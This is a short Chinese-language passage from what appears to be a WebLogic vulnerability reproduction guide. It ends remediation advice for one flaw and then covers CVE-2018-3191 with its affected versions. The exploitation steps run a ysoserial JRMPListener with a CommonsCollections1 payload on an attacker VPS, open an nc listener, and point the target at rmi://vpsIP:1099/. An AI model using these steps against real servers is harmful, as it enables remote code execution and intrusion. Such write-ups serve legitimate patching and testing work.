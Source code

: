 修复建议:

1、及时安装weblogic修复补丁。

2、关闭T3服务，或控制T3服务的访问权限。

### CVE-2018-3191

影响版本：

Oracle WebLogic Server 10.3.6.0

Oracle WebLogic Server 12.1.3.0

Oracle WebLogic Server 12.2.1.3

漏洞复现：

![Dingtalk_20220330093826](.\image\Dingtalk_20220330093826.jpg)

vps利用ysoserial-0.0.6-SNAPSHOT-BETA-all.jar开启JRMP监听（此处需要将系统命令进行bash编码）。

vps执行：java -cp ysoserial-0.0.6-SNAPSHOT-BETA-all.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections1 'bash编码后的系统命令'

![Dingtalk_20220330095412](.\image\Dingtalk_20220330095412.jpg)

vps开启nc监听。

![Dingtalk_20220330095541](.\image\Dingtalk_20220330095541.jpg)

本机使用批量检测利用工具进行漏洞检测后切换至命令执行模块并设置CMD参数值为：rmi://vpsIP:1099/
